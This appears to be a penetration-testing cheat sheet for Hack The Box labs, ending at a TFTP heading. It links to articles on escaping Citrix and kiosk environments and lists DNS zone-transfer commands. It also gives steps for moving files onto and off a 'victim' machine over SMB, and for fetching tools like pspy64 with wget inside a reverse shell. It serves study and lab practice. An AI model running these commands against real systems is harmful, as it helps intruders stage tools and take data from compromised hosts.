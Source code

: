 ## Breakouts / Environment Escapes

---

-   https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/
-   https://sra.io/blog/sitekiosk-breakout/
-   https://www.trustedsec.com/blog/kioskpos-breakout-keys-in-windows/
-   https://cognosec.com/breaking-out-of-citrix-environment/
-   https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
-   https://research.nccgroup.com/wp-content/uploads/2020/07/research-insights_common-issues-with-environment-breakouts.pdf
-   https://gracefulsecurity.com/citrix-breakout/

## DNS - Zone Transfers

---

-   host -t axfr HTB.local 10.10.10.10
-   host -l HTB.local 10.10.10.10
-   host -l <domain name> <name server>
-   dig @<dns server> <domain> axfr

## File Transfers

---

### SMB Transfer

On the Victim machine (Windows)

```
net share \\10.10.10.10\myshare
net use x:
copy whatever.zip x:
```

### Wget Transfer

How to retrieve file(s) from host (inside a reverse shell)

```bash
# Place file you want transferred in /var/www/html/
service apache2 start
# Run on the remote server
# wget http://10.10.10.10/pspy64 # <- for single file
# wget -r http://10.10.10.10/pspy64/ <- for folder
```

### TFTP Transfer

(How to transfer from Kali to Windows)
